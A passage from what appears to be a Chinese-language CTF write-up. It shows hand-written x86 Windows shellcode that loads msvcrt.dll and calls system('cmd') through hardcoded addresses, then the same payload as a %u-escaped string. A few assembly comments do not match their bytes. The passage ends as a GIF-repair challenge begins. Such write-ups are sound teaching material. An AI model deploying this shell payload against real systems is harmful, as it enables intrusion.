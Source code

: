 ```
"\xC6\x45\xFD\x6C"       //mov byte ptr[ebp-03h], 6Ch
"\xC6\x45\xFE\x6C"       //mov byte ptr[ebp-02h], 6Ch
"\x8D\x45\xF5"           //lea eax, [ebp-0Bh]
"\x50"                   //push eax
"\xBA\x7B\x1D\x80\x7C"   //mov edx, 0x7C801D7Bh
"\xFF\xD2"               //call edx
"\x83\xC4\x0C"           //add esp, 0Ch
"\x8B\xEC"               //mov ebp, esp
"\x33\xC0"               //xor eax, eax
"\x50"                   //push eax
"\x50"                   //push eax
"\x50"                   //push eax
"\xC6\x45\xFC\x63"       //mov byte ptr[ebp-04h], 63h
"\xC6\x45\xFD\x6D"       //mov byte ptr[ebp-03h], 6Dh
"\xC6\x45\xFE\x64"       //mov byte ptr[ebp-02h], 64h
"\x8D\x45\xFC"           //lea eax, [ebp-04h]
"\x50"                   //push eax
"\xB8\xC7\x93\xBF\x77"   //mov edx, 0x77BF93C7h
"\xFF\xD0"               //call edx
"\x83\xC4\x10"           //add esp, 10h
"\x5D"                   //pop ebp
"\x6A\x00"               //push 0
"\xB8\xc7\x93\xbf\x77"   //mov eax, 0x7c81cb12
"\xFF\xD0";              //call eax

```

转化为unicode编码就行，得到shellcode

```
%u8b55%u33ec%u50c0%u5050%u45c6%u6df5%u45c6%u73f6%u45c6%u76f7%u45c6%u63f8%u45c6%u72f9%u45c6%u74fa%u45c6%u2efb%u45c6%u64fc%u45c6%u6cfd%u45c6%u6cfe%u458d%u50f5%u7bba%u801d%uff7c%u83d2%u0cc4%uec8b%uc033%u5050%uc650%ufc45%uc663%ufd45%uc66d%ufe45%u8d64%ufc45%ub850%u93c7%u77bf%ud0ff%uc483%u5d10%u006a%u12b8%u81cb%uff7c%u90d0

```

最后一个需要添加nop对应的90  

0x05 Misc穆公崛起
=============

* * *

广纳谏言
----

* * *

下载附件，附件名提示此为gif图片，但是却无法打开，需要修复gif图片。Winhex打开图片，查看文件头：

![enter image description here](http://drops.javaweb.org/uploads/images/be9c3dc75153e2f67b428dafd0b6269b86e64d90.jpg)

与正常的gif文件头：
